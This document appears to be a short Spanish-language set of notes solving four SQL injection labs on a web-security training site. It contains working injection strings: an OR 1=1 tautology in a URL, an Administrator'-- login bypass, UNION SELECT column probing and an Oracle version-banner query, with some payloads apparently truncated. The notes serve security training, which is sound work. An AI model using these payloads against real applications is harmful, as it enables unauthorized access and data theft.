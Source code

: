 ```yaml
---

typora-copy-images-to: ../../mis_assets/img/rails/

typora-root-url:  ../../

layout: post

---
```


> Laboratorio 1

```html
https://ac241f1c1e1c928a80cc0b910061008d.web-security-academy.net/filter?category=gifts'+OR+1=1-
```

![1](/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/1.png)



|Laboratorio 2

Añadimos en el campo usuario = Administrator’--

Añadimos en el campo contraseña = ‘’



![2](/DEV-OPS/mis_assets/img/SQL inyection/2.png)



| Laboratorio 3



Añadimos a partir de la categoría el siguiente código:

UNION SELECT NULL,NULL, NULL-



![3](/DEV-OPS/mis_assets/img/SQL inyection/3.png)



| Laboratorio 4



+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![(/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/4.png)



![5](/DEV-OPS/mis_assets/img/SQL inyection/5.png)

